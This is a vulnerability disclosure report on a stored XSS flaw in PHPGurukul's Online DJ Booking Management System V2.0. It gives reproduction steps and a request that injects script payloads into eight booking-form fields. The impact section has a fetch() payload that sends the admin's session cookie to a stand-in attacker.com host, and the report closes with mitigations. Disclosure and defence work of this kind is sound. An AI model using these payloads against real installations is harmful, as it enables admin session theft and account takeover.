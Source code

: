 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/view-booking-detail.php`, `/invoice-generating.php`                       |
| **Affected File(s)**    | `odms/admin/view-booking-detail.php`, `odms/admin/invoice-generating.php`   |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit an event request** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that booking request, the script executes in their browser, potentially leading to:

- Cookie theft
- Session hijacking
- Unwanted actions performed on behalf of the admin

## Steps to Reproduce

> ⚠️ **Note:** I downloaded the project source and hosted it on my private virtual server.  
> **For privacy reasons, I'm hiding the domain name.**

1. **Book the service using the following URL:**

    ```
    https://domain.com/book-services.php?bookid=1
    ```

    ![Service Page](./images/book-service-page.png)

    Fill in test data and capture the request using **Burp Suite**.

2. **Edit the request parameters with XSS payloads.**

    Affected parameter names:

    - `name`
    - `email`
    - `edate` (event date)
    - `est` (event start time)
    - `eetime` (event end time)
    - `vaddress` (venue address)
    - `eventtype` (event type)
    - `addinfo` (additional info)

    Example request with payloads:

    ```javascript
    name=<script>alert("from-name")</script>&
    email=<script>alert("from-email")</script>%40gmail.com&
    mobnum=123&
    edate=<script>alert("from-date")</script>&
    est=<script>alert("from-start-time")</script>&
    eetime=<script>alert("from-end-time")</script>&
    vaddress=<script>alert("from-address")</script>&
    eventtype=<script>alert("from-type")</script>&
    addinfo=<script>alert("from-add-info")</script>&
    submit=Book
    ```

    ![XSS Payload Request](./images/burp-repeater.png)

3. **Log into the admin account and navigate to the new bookings page:**

    Sidebar → **BOOKING** → **New Booking**

    ```
    https://domain.com/admin/new-booking.php
    ```

    ![New Booking Page](./images/new-booking-page.png)

4. **Click the "View" button on the submitted booking.**

    The XSS payloads will trigger with JavaScript `alert()` pop-ups for each infected field.

    ![XSS Trigger - Name](./images/from-name.png)  
    ![XSS Trigger - Email](./images/from-email.png)  
    ![XSS Trigger - Date](./images/from-date.png)  
    ![XSS Trigger - Start Time](./images/from-start-time.png)  
    *(Additional alerts appear for End Time, Address, Event Type, and Additional Info.)*

5. **Click the "Update" button on the booking.**

    ![Update Booking](./images/update-app.png)

6. **Navigate to the approval bookings page:**

    Sidebar → **BOOKING** → **Approval Booking**

    ![Approval Bookings](./images/approval-page.png)

7. **Click the "Invoice" button.**

    The same XSS payloads will trigger again, one per infected field.

    ![Invoice XSS Trigger](./images/invoice-page-xss.png)


## Impact of Stored XSS

- Any user (no authentication required) can submit a booking with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and the data is stored in the system.
- When the **admin views the booking** in the dashboard, the malicious script is executed in the admin's browser.
- This can lead to **admin account takeover** by stealing the session cookie using a simple payload like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- Once the attacker obtains the admin's cookie, they can impersonate the admin and gain full access to the system.

---

## ✅ Recommended Mitigations

- **Input Sanitization**  
  Strip or escape HTML/JavaScript tags from all user inputs before storing them.

- **Output Encoding**  
  Always encode data before rendering it in the browser (e.g., using `htmlspecialchars()` or the equivalent in your framework).

- **Use Templating Engines That Auto-Escape Output**  
  Leverage modern PHP templating engines that escape output by default:
  - **Twig**: `{{ name }}` auto-escapes output.
  - **Blade (Laravel)**: `{{ $name }}` also auto-escapes output.

- **Content Security Policy (CSP)**  
  Implement a strong CSP header to restrict execution of unauthorized scripts.

- **HTTPOnly Cookies**  
  Ensure session cookies are marked as `HttpOnly` to prevent access via JavaScript.

- **Input Validation**  
  Validate input type, format, and length to reject suspicious or unnecessary data.

---

## 📚 References

- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

